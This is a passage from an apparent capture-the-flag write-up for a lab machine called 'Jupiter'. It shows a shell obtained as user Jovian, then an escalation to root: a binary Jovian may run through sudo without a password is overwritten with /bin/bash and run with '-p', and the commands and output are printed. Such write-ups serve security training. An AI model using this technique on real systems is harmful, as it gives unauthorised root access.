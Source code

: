 This lets us run `/tmp/lmao -p` giving us a shell with Jovian's EID. We can go to Jovians's home and do the same `ssh-keygen` command in order to get a better shell. 

### Jovian to Root:

After logging in as Jovian, we can run `sudo -l` and see the following:

```vim
jovian@jupiter:~$ sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

Looking at the `sattrack` binary, we see something very interesting if we look at its owner:

```vim
jovian@jupiter:~$ ls -la /usr/local/bin/sattrack
-rwxrwxr-x 1 jovian jovian 1396520 Jun  8 18:18 /usr/local/bin/sattrack
```

Since the binary is owned by Jovian, we can edit the file as we see fit in order to execute commands as root. I did the following:
```vim
jovian@jupiter:~$ cp /bin/bash /usr/local/bin/sattrack 
jovian@jupiter:~$ sudo /usr/local/bin/sattrack -p
root@jupiter:/home/jovian# id
uid=0(root) gid=0(root) groups=0(root)
```

Root Flag can be found in `/root/root.txt`
